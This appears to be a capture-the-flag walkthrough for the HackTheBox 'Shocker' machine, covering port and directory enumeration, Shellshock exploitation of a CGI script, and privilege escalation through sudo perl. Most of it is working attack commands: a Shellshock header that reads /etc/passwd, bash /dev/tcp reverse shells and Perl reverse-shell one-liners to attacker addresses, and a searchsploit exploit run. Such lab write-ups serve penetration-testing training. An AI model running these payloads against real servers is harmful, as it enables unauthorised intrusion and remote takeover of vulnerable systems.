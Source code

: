 # Shocker HTB, IP 10.10.10.56

# Initial Enumeration

**1.nmap -sC -sV 10.10.10.56**


**2../nmapAutomator.sh 10.10.10.56 All**



**3. Dirb/ Gobuster**

**dirb http://10.10.10.56/cgi-bin -X .sh,.php,.cgi**
 
  The **cgi-bin** directory is a directory stored on the server which compiles and executes (typically) perl and shell scripts, rather than store them as basic HTML docs and whatnot.
 
  
  
I found a user.sh. We will try to exploit shellshock vulnerability on the server.
CGI runs bash as their default request handler and this attack does not require any authentication that’s why most of the attack is taken place on CGI pages to exploit this vulnerability.

------------------------------------------------------------------------------------------------------------------------------------------
# Port Enumeration

**1.Enumerating on port 80**




**Image enumeration**
**wget http://10.10.10.56/bug.jpg**
**exiftool bug.jpg**


Nothing here!

## 1.Exploit shellshock with curl
 
1.  **curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://10.10.10.56/cgi-bin/user.sh**

2.  **curl -H ‘User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.3/4488 0>&1’ http://10.10.10.56:80/cgi-bin/user.sh**


## 2.Exploit shellshock with python script

**searchsploit shellshock**
 
We get a lot of results back but the one we’re interested in is 34900.py, an Apache mod_cgi script. Before we run it let’s verify it’s a legitimate script and the parameters we need to include by reading it on the exploit db. Since it looks good let’s go ahead and copy the exploit into our root folder and try to execute it.
 
 
 **python Desktop/cgi.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.24 lport=1337 pages=/cgi-bin/user.sh**
 


**Notes:**
**Kill process in case of sockets in use**


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sudo netstat -nlp | grep 8069
ps -aux
tcp        0      0 0.0.0.0:8069            0.0.0.0:*               LISTEN      10869/python2    
sudo kill -9 10869
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


 
 
**Interactive shell**
**python3 -c 'import pty; pty.spawn("/bin/bash")'**
In case that I wont be able to get an interactive shell I could get a reverse shell in order to be more stable.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$ bash -i >& /dev/tcp/10.10.14.15/8888 0>&1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


**Attacker:**
nc -lvp 8888


----------------------------------------------------------------------------------------------------------------------------------------------
# Privilege escalation
**sudo -l**
 
 


## 1.GTFobins Perl
Linux for Perl resource:https://www.hackingarticles.in/linux-for-pentester-perl-privilege-escalation/


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 perl -e 'exec "/bin/sh";'
 perl -e 'exec "tail /etc/passwd";'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


 
 cat root/root.txt
 
 
## 2.Perl Reverse shell - one -Liner

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 $ sudo perl -e 'use Socket;$i="10.10.14.15";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

 or

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 perl -e 'use Socket;$i="192.168.29.157";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Attacker:
nc -lvp 1234

 root.txt
 
